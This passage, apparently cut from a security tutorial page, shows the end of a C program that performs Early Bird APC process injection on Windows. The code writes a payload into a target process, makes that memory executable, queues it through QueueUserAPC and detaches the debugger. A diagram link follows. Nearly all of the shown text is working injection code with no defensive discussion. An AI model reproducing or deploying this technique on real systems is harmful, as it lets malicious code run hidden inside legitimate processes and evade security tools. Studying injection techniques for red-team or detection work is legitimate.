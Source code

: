 ```c
	}
	printf("Successfully allocated memory at: 0x%p \n", lpAlloc);

	BOOL bWriteBuffer = WriteProcessMemory(hProcess, lpAlloc, Payload, dwSize, &sNumberOfBytesWritten);

	if (bWriteBuffer == FALSE) {
		printf("Failed to Write Memory to the process\n");
		CloseHandle(hProcess);
		return -1;
	}

	printf("Successfully written %d Bytes\n", sNumberOfBytesWritten);

	if (!VirtualProtectEx(hProcess, lpAlloc, dwSize, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
		printf("Failed to change memory protection from RW to RX: %d \n", GetLastError());
		return -1;
	}

	DWORD dQueueAPC = QueueUserAPC((PTHREAD_START_ROUTINE)lpAlloc, hThread, NULL);
	if (dQueueAPC == 0) {
		printf("\nError Queueing APC: %d", GetLastError());
		return -1;
	}

	DebugActiveProcessStop(pi.dwProcessId);

	// Close the handle once the program is exited
	printf("Press Enter to Quit...");
	getchar();
	CloseHandle(hProcess);
	CloseHandle(hThread);
	return 0;
}
```


<img alt="" class="bf jp jq dj" loading="lazy" role="presentation" src="https://raw.githubusercontent.com/nirajkharel/nirajkharel.github.io/master/assets/img/images/proc-injection-early-bird-apc.png">
